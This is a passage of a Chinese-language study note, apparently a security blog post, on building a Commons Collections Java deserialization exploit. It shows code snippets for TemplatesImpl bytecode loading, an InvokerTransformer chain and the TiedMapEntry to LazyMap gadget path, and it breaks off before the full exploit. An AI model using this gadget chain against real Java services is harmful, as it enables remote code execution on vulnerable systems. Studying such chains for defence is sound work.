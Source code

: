 > 这个时候就考验对cc的学习程度了,因为上面我们发现了问题,就要自己通过CC中各种组件重新构造去解决这个问题
>
> 而重新构造意味着要自己编写payload
>
> 这里虽然p牛写好了,但是还是尽量自己去把整个exp从0到1写出来比较有体会.
>


### 如何加载TemplatesImpl

```java
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][] {"/*bytes*/"});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
obj.newTransformer();
```

### LazyMap.get()

![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406015040-mbzwtgq.png)

以往我们是这样触发TemplatesImpl的:

```java
Transformer[] transformers = new Transformer[]{
  new ConstantTransformer(obj),
  new InvokerTransformer("newTransformer", null, null)
};
```

但这里transform是可以传入一个参数key的,结合InvokeTransformer的transform方法:

![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406015821-whcvobi.png)

那我们可以直接传入,不用第一个`new ConstantTransformer(obj),`存在了,因为我们也知道这个类的作用就是:![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406015901-0cmid5c.png)


所以就是这么个构造思路:

```java
TiedMapEntry.getValue()
	LazyMap.get(key)
		InvokeTransformer.transform()
```


就是直接把那个类作为参数传给InvokeTransformer就行了,不用通过transform方法递归.

### 构造exp

构造令人头大....总之一步一步来


#### 解决TemplatesImpl的部分

我直接参照ysoserial的createTemplateImpl方法写
